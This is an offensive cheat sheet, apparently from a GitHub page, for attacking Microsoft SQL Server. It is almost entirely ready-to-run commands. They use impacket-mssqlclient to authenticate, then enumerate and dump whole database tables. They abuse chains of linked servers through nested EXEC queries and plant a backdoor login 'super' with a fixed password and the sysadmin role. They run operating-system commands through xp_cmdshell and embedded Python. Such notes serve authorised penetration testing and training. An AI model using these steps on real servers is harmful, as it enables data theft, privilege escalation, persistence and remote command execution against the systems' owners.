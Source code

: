 # MSSQL Database Authentication and Dumping

### Commands:

 - impacket-mssqlclient -k DOMAIN.LOCAL (Kerberos auth example)

 - impacket-mssqlclient -windows-auth DOMAIN\\USERNAME@TARGET_IP

 - impacket-mssqlclient USERNAME@TARGET_IP (Local auth)

### DATABASE COMMANDS

 - SELECT name FROM sys.databases; (Enumerate all databases within MSSQL instance)

 - SELECT TABLE_NAME,TABLE_SCHEMA FROM targetdb.INFORMATION_SCHEMA.TABLES; (Enumerate tables of the target database)

 - SELECT * FROM targetdb.dbo.targettable (Dump all the contents of the target table of the target database)

### LINKED DATABASES ABUSE

 - select name,sysadmin from syslogins; (Check if our user has admin privileges to run commands with xp_cmdshell)

 - select srvname, isremote from sysservers; (Check if there are any linked servers on the current database. Isremote determines if it is linked or remote. If it is 1, it means it is linked, else is remote.)

 - EXEC ('select current_user') at [NAME\REMOTE_DATABASE]; (Check in whose context we are able to query the linked server)

 - EXEC ('select name,sysadmin from syslogins') at [NAME\REMOTE DATABASE]; (Check for sysadmin sa privileges)

 - EXEC ('select srvname,isremote from sysservers') at [NAME\REMOTE_DATABASE]; (Check the remote DB server if it has more links)

 - EXEC ('EXEC (''select susername()'') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE]; (Nested queries. This use case means that we have encountered a circular link between database servers!)

If we are sa, then we add a user with sysadmin privileges for us

 - EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

 - EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

### COMMAND EXECUTION WITH XP_CMDSHELL

 - enable xp_cmdshell (Enable command execution)
 
 - xp_cmdshell whoami

 - EXECUTE sp_configure 'external scripts enabled', 1; (Enable execution of external scripts written in R or python)

 - EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("COMMAND");'; (Run commands using Python)

